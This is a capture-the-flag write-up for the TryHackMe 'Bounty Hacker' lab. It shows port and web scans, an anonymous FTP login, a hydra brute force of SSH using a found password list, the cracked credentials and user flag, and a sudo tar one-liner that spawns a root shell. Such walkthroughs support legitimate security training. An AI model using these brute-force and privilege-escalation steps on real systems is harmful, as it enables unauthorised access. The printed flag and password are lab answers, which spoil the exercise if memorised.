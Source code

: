 # Bounty Hacker @TryHackMe

Difficulty: EASY

Keywords and tools: nmap, dirb, nikto, ftp, google, ssh, bruteforce

Questions:

1.Who wrote the task list? 

2.What service can you bruteforce with the text file found?

3.What is the users password? 

4.user.txt

5.root.txt

### Ping the target to see it's alive (target IP will be given after you've joined the room)
```
ping 10.10.180.213
PING 10.10.180.213 (10.10.180.213) 56(84) bytes of data.
64 bytes from 10.10.180.213: icmp_seq=1 ttl=63 time=50.4 ms
64 bytes from 10.10.180.213: icmp_seq=2 ttl=63 time=53.2 ms
```

### nmap scan
``` 
nmap -sV -n -v -Pn -p- -T4 -A 10.10.180.213
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.186
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```
Found open ports 21, 22 and 80. So FTP, SSH and web application.

Note the "Anonymous FTP login allowed"

### Lets run dirb and nikto scans
```
dirb http://10.10.180.213
---- Scanning URL: http://10.10.180.213/ ----
==> DIRECTORY: http://10.10.180.213/images/                                                                      
+ http://10.10.180.213/index.html (CODE:200|SIZE:969)                                                            
+ http://10.10.180.213/server-status (CODE:403|SIZE:278)       
```


```
nikto -h 10.10.180.213
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.180.213
+ Target Hostname:    10.10.180.213
+ Target Port:        80
+ Start Time:         2021-01-22 03:51:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 3c9, size: 5a789fef9846b, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2021-01-22 03:58:59 (GMT-5) (474 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Nothing interesting found with dirb or nikto. Opening site with browser, nothing interesting.


### Lets checkout the FTP
```
ftp 10.10.180.213                  
Connected to 10.10.180.213.
220 (vsFTPd 3.0.3)
Name (10.10.180.213:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```
Lets read locks.txt and task.txt

```
1.) Protect Vicious. 
2.) Plan for Red Eye pickup on the moon.

-lin

-------------------------------------------

rEddrAGON 
ReDdr4g0nSynd!cat3 
Dr@gOn$yn9icat3 
R3DDr46ONSYndIC@Te 
ReddRA60N 
R3dDrag0nSynd1c4te 
dRa6oN5YNDiCATE 
ReDDR4g0n5ynDIc4te 
R3Dr4gOn2044 
RedDr4gonSynd1cat3 
R3dDRaG0Nsynd1c@T3 
Synd1c4teDr@g0n 
reddRAg0N 
REddRaG0N5yNdIc48e 
Dra6oN$yndIC@t3 
4L1mi6H71StHeB357 
rEDdragOn$ynd1c473 
DrAgoN5ynD1cATE 
ReDdrag0n$ynd1cate 
Dr@gOn$yND1C4Te 
RedDr@gonSyn9ic47e 
REd$yNdIc47e 
dr@goN5YNd1c@73 
```
Passwords apparently, but we found answer to our first question.
Who wrote the task list? lin

### Lets try bruteforcing SSH with the passwordlist and username lin.
```
hydra 10.10.180.213 -l lin -P locks.txt ssh 

ydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-22 04:07:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.180.213:22/
[22][ssh] host: 10.10.180.213   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```
Found login: lin   password: RedDr4gonSynd1cat3.

Also got the answer for the second and third questions: 

What service can you bruteforce with the text file found? SSH

What is the users password? RedDr4gonSynd1cat3


### Lets SSH with the found credentials.
```
ssh lin@10.10.180.213 

lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```
Here's our answer to fourth question. user.txt: 

Lets see list of allowed commands.
```
lin@bountyhacker:/$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
We can run tar as root. Quick google "root tar sudo exploit" or similiar should point you to https://gtfobins.github.io/gtfobins/tar/.

```
lin@bountyhacker:/$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
# whoami
root
# locate root.txt
/root/root.txt
# cat /root/root.txt
```
And here we have our final answer. THM***********}
